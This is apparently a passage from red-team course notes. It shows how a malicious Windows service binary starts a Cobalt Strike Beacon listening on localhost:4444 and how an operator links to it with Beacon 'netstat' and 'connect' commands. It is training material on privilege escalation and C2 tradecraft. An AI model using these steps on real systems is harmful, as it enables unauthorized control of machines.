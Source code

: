 ```
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 4384
        FLAGS              : 
```

{% hint style="info" %}
Standard users cannot stop or start services by default, so you would need to usually need to wait for a computer reboot to occur.

This privilege has been granted throughout the lab and hopefully the exam.
{% endhint %}

### Using the Malicious Service Binary

When you start the service, you will see that its state will be `START_PENDING`. If you then check its status with `sc query VulnService1`, you will see that it will be in a `STOPPED` state. This is by design.

You will also not see a Beacon appear within the UI of Cobalt Strike automatically. However, you should see the port you used in your TCP listener configurations (likely `4444`) which is now listening on `127.0.0.1` (`localhost`).

**To verify this, we can run `netstat` via the Beacon shell:**

```
beacon> run netstat -anp tcp
[...snip...]
TCP    127.0.0.1:4444         0.0.0.0:0              LISTENING
```

### Connecting to the Service Listener

**The Beacon is now in a listening (awaiting connection) state, we can now rely on our Beacon shell to connect to it using the `connect` command:**

```
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.123.102
```

<figure><img src="../.gitbook/assets/image (289).png" alt=""><figcaption></figcaption></figure>
